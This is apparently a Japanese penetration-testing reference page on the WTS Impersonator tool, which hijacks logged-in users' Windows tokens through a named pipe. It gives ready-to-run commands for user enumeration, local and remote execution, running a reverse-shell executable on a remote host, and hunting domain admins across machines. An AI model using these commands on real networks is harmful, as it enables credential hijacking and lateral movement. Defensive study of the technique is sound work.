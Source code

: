 {{#include ../../banners/hacktricks-training.md}}

**WTS Impersonator**ツールは、**"\\pipe\LSM_API_service"** RPCネームドパイプを利用して、ログインしているユーザーを密かに列挙し、トークンをハイジャックします。これにより、従来のトークンインパーソネーション技術を回避し、ネットワーク内でのシームレスな横移動が可能になります。この技術の革新は、**Omri Baso**に帰属し、彼の作業は[GitHub](https://github.com/OmriBaso/WTSImpersonator)でアクセス可能です。

### コア機能

ツールは一連のAPI呼び出しを通じて動作します：
```bash
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### キーモジュールと使用法

- **ユーザーの列挙**: ツールを使用して、ローカルおよびリモートのユーザー列挙が可能で、いずれのシナリオにもコマンドを使用します。

- ローカルで:
```bash
.\WTSImpersonator.exe -m enum
```
- リモートで、IPアドレスまたはホスト名を指定することによって:
```bash
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **コマンドの実行**: `exec` および `exec-remote` モジュールは、機能するために **サービス** コンテキストを必要とします。ローカル実行には、WTSImpersonator実行可能ファイルとコマンドが必要です。

- ローカルコマンド実行の例:
```bash
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- PsExec64.exeを使用してサービスコンテキストを取得できます:
```bash
.\PsExec64.exe -accepteula -s cmd.exe
```

- **リモートコマンド実行**: PsExec.exeに似たリモートでサービスを作成およびインストールし、適切な権限で実行を可能にします。

- リモート実行の例:
```bash
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **ユーザーハンティングモジュール**: 複数のマシンにわたって特定のユーザーをターゲットにし、彼らの資格情報の下でコードを実行します。これは、複数のシステムでローカル管理者権限を持つドメイン管理者をターゲットにするのに特に便利です。
- 使用例:
```bash
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

{{#include ../../banners/hacktricks-training.md}}
